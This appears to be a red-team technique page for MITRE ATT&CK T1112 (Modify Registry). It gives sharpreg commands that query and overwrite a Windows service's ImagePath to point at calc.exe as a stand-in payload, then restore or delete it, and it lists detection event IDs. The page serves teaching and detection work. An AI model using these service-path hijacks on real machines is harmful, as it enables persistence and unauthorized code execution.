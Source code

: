  # [Modify Registry](https://attack.mitre.org/techniques/T1112/)

## Exploit Description:
Adversaries may interact with the Windows Registry to hide configuration information within Registry keys, remove information as part of cleaning up, or as part of other techniques to aid in persistence and execution.

## Exploit syntax:

```powershell
# Example of querying 

sharpreg query HKLM\SYSTEM\CurrentControlSet\services\gupdatem | poshgrep ImagePath 

# Here we change the key that we just queried above. We notated what it was before we make changes. The syntax: sharpreg create <"location"> <"key value"> <"key details"> <value type>

sharpreg create "HKLM\SYSTEM\CurrentControlSet\Services\gupdatem"  "ImagePath" "C:\Windows\WinSxS\x86_microsoft-windows-calc_31bf3856ad364e35_10.0.14393.0_none_7b13d13279112b2e\calc.exe" EXPAND_SZ

# If necessary, you may change the key back to its original state:

sharpreg create "HKLM\SYSTEM\CurrentControlSet\Services\gupdatem" "ImagePath" "C:\Program Files\Google\Update\GoogleUpdate.exe /medsvc" EXPAND_SZ 

# Also possible to just outright delete a key

sharpreg delete HKLM\SYSTEM\CurrentControlSet\Services\gupdatem ImagePath

```

## Detection Technique:
* Investigate any reg command. Reg is for registry querying and manipulation
* Event IDs
    * 13: Registry value set
    * 4657: Registry is modified

## Resources
https://github.com/jnqpblc/SharpReg

https://malware.news/t/introducing-poshc2-v8-0/58825